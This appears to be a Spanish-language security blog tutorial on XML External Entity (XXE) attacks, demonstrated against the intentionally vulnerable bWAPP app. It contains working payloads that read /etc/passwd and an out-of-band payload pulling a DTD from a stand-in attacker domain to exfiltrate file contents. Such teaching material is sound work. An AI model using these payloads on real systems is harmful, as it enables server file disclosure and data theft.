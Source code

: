 +++
date = "2015-05-30"
title = "XXE - XML External Entity - El Nuevo SQLi"
author = "Javier Olmedo"
toc = false
+++

[![/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_banner.png](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_banner.png)](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_banner.png)

**XXE (Xml eXternal Entity)** es un tipo de vulnerabilidad que se produce en aplicaciones que hacen uso de **«parsers»** XML. Es decir aplicaciones que reciben como entrada un documento XML y para procesarlo hacen uso de alguna librería de parseo como LibXML, Xerces, MiniDOM, SAX etc. El atacante entonces puede aprovechar esta vulnerabilidad y enviar un documento XML especialmente manipulado para conseguir que el parser XML divulgue información del sistema, consuma recursos en exceso, ejecute comandos u otras formas de explotación.

El ataque solo es posible cuando la forma de interpretar el XML **permite incluir entidades externas** debido a su mala configuración. Puede llevar también a la lectura de archivos locales, descubrimiento y mapeo de red interna, denegaciones de servicio, etc.

## ¿Que es un DTD?

Un DTD y como sus siglas lo indican (Definicion del tipo de documento), se encarga de decirle a el parser XML (motor XML) **como va a estar compuesto un fichero de este tipo**. Cada vez que un xml es cargado, **el que se ocupa de verificar si dicho fichero presenta una estructura correcta**, entre otras cosas, es el parser XML y lo hace primero consultando el DTD.

Los DTD pueden encontrarse dentro del documento.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE secsignal [
]>
```

Todo lo que se encuentra dentro del tag **[]** es parte del DTD.
O externos al mismo.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE secsignal SYSTEM "fichero.dtd" [
]>
```

Dentro de un DTD podemos realizar varias declaraciones.

Podemos leer más sobre DTD [Aqui](https://www.w3schools.com/dtd/).

## ¿Donde puede encontrarse esta vulnerabilidad?

Suele ser común encontrarla en los siguientes **Content-Types: text/xml, application/xml**.
Aunque también puede darse al parsear un documento Word (son muchos archivos .xml) unidos y comprimidos o en JSON que luego se parsea en forma de XML.

## ¿Cómo se explota XXE?

Se trata de **malformar las peticiones con XML** de forma que añadamos funcionalidades al intérprete de XML como leer un archivo local y enviar su contenido a un servidor externo (/etc/passwd).

Por ejemplo, una petición legítima estaría formada de la siguiente manera:

```bash
<forgot><username>admin</username></forgot>
```

Con las siguientes cabeceras:

```bash
POST /forgotpw HTTP/1.1
Host: testhtml5.vulnweb.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:40.0) Gecko/20100101    Firefox/40.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://PAGINAVULNERABLE.COM
Content-Length: 43
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
```

Nuestro objetivo para comprobar si es vulnerable es incluir nuestras propias etiquetas XML, como por ejemplo:

```bash
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE etiqueta [
<!ELEMENT etiqueta ANY >
<!ENTITY entidad SYSTEM "file:///etc/passwd" >]><etiqueta>&entidad;</etiqueta>
```

De esta forma podremos leer cualquier archivo para el que el usuario que controla la aplicación tenga acceso, **llamar a cualquier binario** (ls, ping, ifconfig, nmap, rm, touch…. hay infinitas posibilidades), llamar a diferentes protocolos, como por ejemplo php://, ssh://, etc.

## Explotación práctica (demo)

Para realizar la demo he elegido una aplicación web que es vulnerable por diseño: bWAPP
Al acceder a la ruta vulnerable http://URL/bWAPP/xxe-1.php nos encontramos la siguiente aplicación web:

[![/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_001.png](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_001.png)](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_001.png)

Si llevamos a cabo la acción «deseada» por la web obtenemos una petición como la siguiente:

[![/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_002.png](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_002.png)](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_002.png)

Si queremos comprobar si es vulnerable trataremos de introducir una entidad externa y ver si nos devuelve un error o la procesa. Si hay error será que no es vulnerable, si por el contrario la procesa podremos seguir adelante con la explotación.

Para esta demo solicitaré a la aplicación el fichero /etc/passwd mediante entidades XML. Modificaré el contenido de la petición para añadirlo, quedando así:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE Header [ <!ENTITY valor SYSTEM "///etc/passwd"> ]>
<reset><login>&valor;</login><secret>Any bugs?</secret></reset>
```

[![/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_003.png](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_003.png)](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_003.png)

Si procesamos la petición veremos que hemos tenido éxito y que **hemos obtenido el contenido del fichero**:

[![/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_004.png](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_004.png)](/images/xxe-xml-external-entity-el-nuevo-sqli/xxe-xml-external-entity-el-nuevo-sqli_004.png)

Ahora solo tendríamos que extender la explotación como quisiéramos, ya sea leyendo más archivos hasta obtener credenciales de acceso, escribiendo en archivos, llamando a protocolos, provocando un DoS al servidor…. sería dar rienda suelta a la imaginación.

Una de las opciones más usadas es solicitar al servidor un archivo como /etc/passwd y que envíe su contenido a un servidor en el que nosotros tengamos control de los logs o solicitar que se conecte a un .dtd que controlemos en nuestro servidor y que sea él quien le pida el contenido del archivo que deseamos leer.

Este podría ser nuestro DTD-PART

```xml
<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///"%three;"'>">
```

Y este el payload que enviamos a la aplicación:

```xml
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE test [
 <!ENTITY % one SYSTEM "http://DOMINIO-ATACANTE.COM/dtd-part" >
 %one;
 %two;
 %four;
 ]>
```

Quería dar las gracias a **Miguel Ángel Jimeno** ([@migueljimeno96[(https://x.com/migueljimeno96)]) , por permitirme publicar su post en la mayor parte de esta entrada, él ha sido quien ha redactado todo el proceso de explotación.

Podemos ver el post original en el foro de [Underc0de](https://underc0de.org/foro/bugs-y-exploits/entendiendo-y-explotando-xxe-(external-xml-entities)/).

Un Saludo y hasta la próxima.
